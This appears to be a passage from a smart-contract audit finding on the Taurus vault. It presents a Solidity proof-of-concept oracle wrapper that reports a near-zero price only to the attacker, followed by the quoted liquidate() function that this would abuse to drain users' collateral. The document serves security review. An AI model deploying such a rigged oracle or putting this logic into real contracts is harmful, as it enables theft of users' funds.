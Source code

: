 ```solidity
contract AttackOracleWrapper is IOracleWrapper, Ownable {
    address public attacker;
    IGLPManager public glpManager;

    constructor(address _attacker, address glp) {
        attacker = _attacker;
        glpManager = IGLPManager(glp);
    }

    function getExternalPrice(
        address _underlying,
        bytes calldata _flags
    ) external view returns (uint256 price, uint8 decimals, bool success) {
        if (tx.origin == attacker) {
            return (1, 18, true); // @audit a really low price resulting in the liquidation of all positions
        } else {
            uint256 price = glpManager.getPrice();
            return (price, 18, true);
        }
    }
}
```
Then call ````liquidate()```` to drain out users collateral with negligible $TAU cost.
```solidity
File: taurus-contracts\contracts\Vault\BaseVault.sol
342:     function liquidate(
343:         address _account,
344:         uint256 _debtAmount,
345:         uint256 _minExchangeRate
346:     ) external onlyLiquidator whenNotPaused updateReward(_account) returns (bool) {
347:         if (_debtAmount == 0) revert wrongLiquidationAmount();
348: 
349:         UserDetails memory accDetails = userDetails[_account];
350: 
351:         // Since Taurus accounts' debt continuously decreases, liquidators may pass in an arbitrarily large number in order to
352:         // request to liquidate the entire account.
353:         if (_debtAmount > accDetails.debt) {
354:             _debtAmount = accDetails.debt;
355:         }
356: 
357:         // Get total fee charged to the user for this liquidation. Collateral equal to (liquidated taurus debt value * feeMultiplier) will be deducted from the user's account.
358:         // This call reverts if the account is healthy or if the liquidation amount is too large.
359:         (uint256 collateralToLiquidate, uint256 liquidationSurcharge) = _calcLiquidation(
360:             accDetails.collateral,
361:             accDetails.debt,
362:             _debtAmount
363:         );
364: 
365:         // Check that collateral received is sufficient for liquidator
366:         uint256 collateralToLiquidator = collateralToLiquidate - liquidationSurcharge;
367:         if (collateralToLiquidator < (_debtAmount * _minExchangeRate) / Constants.PRECISION) {
368:             revert insufficientCollateralLiquidated(_debtAmount, collateralToLiquidator);
369:         }
370: 
371:         // Update user info
372:         userDetails[_account].collateral = accDetails.collateral - collateralToLiquidate;
373:         userDetails[_account].debt = accDetails.debt - _debtAmount;
374: 
375:         // Burn liquidator's Tau
```